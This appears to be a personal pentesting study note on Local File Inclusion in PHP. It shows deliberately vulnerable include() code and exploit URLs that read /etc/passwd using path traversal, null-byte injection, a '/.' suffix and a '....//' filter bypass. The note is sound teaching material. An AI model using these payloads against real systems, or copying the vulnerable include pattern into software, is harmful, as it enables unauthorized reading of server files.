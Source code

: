 ```yaml
---
title: Local File Inclusion
---
```


_Local File Inclusion_ attacks against web applications are often possible due to a developers' lack of security awareness.

With PHP, using functions such as `include`, `require`, `include_once`, and `require_once` often contribute to vulnerable web applications.

LFI vulnerabilities also occur when using other languages such as ASP, JSP, or even in Node.js apps. LFI exploits follow the same concepts as [[knowledge/off-sec/pentesting/path-traversal|path-traversal]].

## Example

Suppose the web application provides two languages, and the user can select between the EN and AR

```php
<?php
	include($_GET["lang"]);
?>
```

The PHP code above uses a **GET request** via the URL parameter `lang` to **include** the file of the page.

```
http://webapp.com/index.php?lang=EN.php
http://webapp.com/index.php?lang=AR.php
```

Theoretically, we can access and display any readable file on the server from the code above if there isn't any input validation:

```
http://webapp.com/index.php?lang=/etc/passwd
```

## Example #2

The developer might decided to specify the directory inside the function:

```php
<?PHP
	include("languages/". $_GET['lang']);
?>
```

In the above code, the developer decided to use the include function to call PHP pages in the languages directory only via lang parameters.

If there is no input validation, the attacker can manipulate the URL by replacing the lang input with other OS-sensitive files such as /etc/passwd.

The `include` function allows us to include any called files into the current page. The following will be the exploit:

```
http://webapp.com/index.php?lang=../../../../etc/passwd
```

## Example #3

In the first two cases, we _checked_ the code for the web app, and then we knew how to exploit it. In case of [[black-box-testing]], we need to take a look of the error messages in order to understand how the data is passed and processed into the web app, eg:

```
Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/**THM-4**/index.php on line 12
```

The error message discloses what the include function looks like:  `include(languages/THM.php);`

We can tell the function that includes files in the languages directory is adding `.php` at the end of the entry. Thus the valid input will be something like `index.php?lang=EN`, where the file EN is located inside the given `languages/` and named  `EN.php`.

From the error message we also know the full web application directory which is `/var/www/html/THM-4/`

To exploit this, we need to use the [[knowledge/off-sec/pentesting/path-traversal|dot-dot-slash trick]] to get out the current folder:

```
http://webapp.com/index.php?lang=../../../../etc/passwd
```

We already knew the `/var/www/html/THM-4` path has four levels, but we still receive the error:

```
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```

The error tells us that the developer specifies the file type to pass to the `include` function (namely it has to end with `.php`). To go around that, we need to use [[knowledge/off-sec/pentesting/null-byte]] injection:

```
http://webapp.com/index.php?file=../../../../etc/passwd%00
```

## Example #4 - filtered keywords

Let's say the developer decided to filter keywords to avoid disclosing sensitive information and the `/etc/passwd` file has been filtered.

There are two possible methods to bypass the filter.

- by using the [[knowledge/off-sec/pentesting/null-byte|null byte %00]]
- the current directory [[knowledge/off-sec/pentesting/path-traversal]] trick at the end of the filtered keyword (`/.`)

The exploit will be similar to ```

```
http://webapp.thm/index.php?lang=/etc/passwd/.
```

If we try `/etc/passwd/..`, it results to be  `/etc/` and that's because we moved one to the root. If we try `/etc/passwd/.`, the result will be `/etc/passwd` since dot refers to the current directory.

## Example #5 - input validation

---

Let's say the developer starts to use input validation by filtering some keywords out of it.

```
http://webapp.thm/index.php?lang=../../../../etc/passwd
```

By using such URL, we got the following error:

```php
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```

From the error message we know that the web application replaces the `../` with the empty string (it defaults the fn call to `include(languages/etc/passwd`).

There are a couple of techniques we can use to bypass this.

We can send the following [[knowledge/off-sec/glossary/payload]] to bypass it: `....//....//....//....//....//etc/passwd`, as the PHP filter only matches and replaces **the first subset** string it finds (`../`) and doesn't do another pass, turning

```
..//....//....//....//etc/passwd
```

into

```
../../../../etc/passwd
```

## Example 6 - forced directory

If the developer forces the `include` fn to read from a defined directory, namely, if the web application asks to supply input that has to include a directory such as

```
http://webapp.thm/index.php?lang=languages/EN.php
```

then, to exploit this, we need to include the directory in the [[knowledge/off-sec/glossary/payload]] like so:

```
?lang=languages/../../../../../etc/passwd
```
